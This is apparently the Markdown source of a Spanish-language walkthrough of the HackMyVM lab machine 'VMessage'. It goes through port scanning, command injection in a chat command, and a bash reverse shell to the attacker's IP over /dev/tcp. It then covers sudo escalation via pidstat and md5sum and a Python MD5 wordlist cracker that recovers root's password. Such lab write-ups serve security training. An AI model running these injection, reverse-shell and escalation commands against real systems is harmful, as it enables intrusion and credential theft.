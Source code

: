 ```yaml
---
layout: post
title: WMessage
date: 2022-12-04
categories: ["HMV", "RCE"]
thumbnail: "assets/images/WMessage.png"
---
```


# VMessage [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.107 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.107 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos a la web veremos un panel `login` y arriba un botón llamado `Sign Up`, por lo que vamos a registrarnos. Una vez registrados veremos una especie de chat. Un tal `Master` nos dice que con el comando `!mpstat` podemos ver el estado del servidor.

Pensé que por detrás se estaba ejecutando un comando a nivel de sistema, así que tratré de inyectar comandos. Tras varios intentos llegué al `pipe` (`|`). Si ponemos `!mpstat | id` nos devolverá el comando ejecutado.

```
Server: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Bien! Podemos ejecutar comandos! Para ganar una Reverse Shell primero me puse en escucha con `NC`, en mi caso por el puerto `4444`:

- `nc -nlvp 4444`

Después de eso me dirigí a [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) y me copié el comando en `Bash`. Vamos a ver cómo nos queda la inyección:

```
!mpstat | bash -c 'bash -i >& /dev/tcp/192.168.1.103/4444 0>&1'
```

Bien! Ya estamos en la máquina como `www-data`!

### Subida de privilegios #1
Una vez dentro de la máquina ejecuté `sudo -l` para listar todo lo que podía hacer:

```Ruby
Matching Defaults entries for www-data on MSG:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
 
User www-data may run the following commands on MSG:
    (messagemaster) NOPASSWD: /bin/pidstat
```

Como vemos podemos ejecutar `pidstat` como `messagemaster`. En [`GTFObins`](https://gtfobins.github.io/gtfobins/pidstat/#sudo) nos enseñan a escalar privilegios con dicha herramienta, vamos a ver cómo lo hice yo:

- `sudo -u messagemaster /bin/pidstat -e /bin/bash -i`

Bien! Ya estamos como `messagemaster`!

### Subida de privilegios #2
Ahora nuestro objetivo es obtener `root`, por lo que volvemos a ejecutar `sudo -l` para saber qué podemos hacer en la máquina:

```Ruby
Matching Defaults entries for messagemaster on MSG:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
 
User messagemaster may run the following commands on MSG:
    (ALL) NOPASSWD: /bin/md5sum
```

Vemos que podemos ejecutar `MD5Sum` como cualquier usuario, es decir, podemos ejecutarlo como `root`. Tras mirar en varios sitios no encontré ninguna vulnerabilidad relacionada con dicho binario.

Tras buscar un rato en la máquina llegué a `/var/www`, donde se encontraba un fichero con el nombre `ROOTPASS`. Utilicé `MD5Sum` como `root` para obtener el `hash` y en mi máquina poder romperlo:

- `sudo -u root /bin/md5sum /var/www/ROOTPASS`

```
85c73111b30f9ede8504bb4a4b682f48  /var/www/ROOTPASS
```

Bien! Ya tenemos el `hash`, podemos tratar de romperlo con `John` pero no funcionará. Me creé un `script` en `Python` para que con un diccionario (`rockyou.txt`) vaya línea por línea transformándola en `MD5` y comparándola con el `hash` que tenemos. Vamos a verlo:

```Python
import hashlib

md5 = "85c73111b30f9ede8504bb4a4b682f48"

with open("/usr/share/wordlists/rockyou.txt", encoding="utf-8", errors="ignore") as wordlist:
	lines = wordlist.readlines()
	for passwd in lines:
		passwd = passwd.replace("\n", "")
		hash = hashlib.md5((passwd.strip() + "\n").encode()).hexdigest()
		if str(hash) == md5:
			print(passwd)
```

Tras iniciarlo y esperar unos segundos vemos que sale en nuestra pantalla la contraseña de `root` (`root:Message5687`)!

Bien! Ya estamos en la máquina como `root`! Qué fácil!